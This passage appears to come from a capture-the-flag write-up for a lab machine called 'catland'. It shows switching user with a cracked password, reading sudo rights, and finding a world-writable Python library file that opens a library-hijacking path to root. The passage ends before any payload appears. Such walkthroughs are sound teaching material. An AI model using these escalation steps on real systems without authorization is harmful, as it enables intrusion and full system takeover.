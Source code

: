 The password `berbatov` was successfully cracked. I then used this password to switch user to `laura` from the `www-data` shell, as the `Laura_2008` password found earlier was only for the web panel and did not work for system login.

```shellscript
www-data@catland:/var/www/admin$ su laura
Password: berbatov
laura@catland:/var/www/admin$
```

This successfully elevated my privileges to the `laura` user.

### 7. Privilege Escalation to `root`

As `laura`, I checked `sudo` permissions:

```shellscript
laura@catland:~$ sudo -l
Matching Defaults entries for laura on catland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User laura may run the following commands on catland:
    (ALL : ALL) NOPASSWD: /usr/bin/rtv --help
```

`laura` can run `/usr/bin/rtv --help` as `root` without a password. I inspected the `rtv` script:

```shellscript
laura@catland:~$ cat /usr/bin/rtv
#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'rtv==1.27.0','console_scripts','rtv'
import re
import sys
# for compatibility with easy_install; see #2198
__requires__ = 'rtv==1.27.0'
try:
    from importlib.metadata import distribution
except ImportError:
    try:
        from importlib_metadata import distribution
    except ImportError:
        from pkg_resources import load_entry_point
# ... (truncated output) ...
```

The script is a Python 3 script and imports `importlib.metadata`. I checked the permissions of `metadata.py`:

```shellscript
laura@catland:/usr/lib/python3.9/importlib$ ls -la metadata.py
-rw-r--rw-  1 root root 18210 Feb 28  2021 metadata.py
```

Crucially, `metadata.py` has `rw` permissions for "others" (the last `rw-`), meaning `laura` (who is not `root` but is "other") can write to this file. This is a Python library hijacking vulnerability.
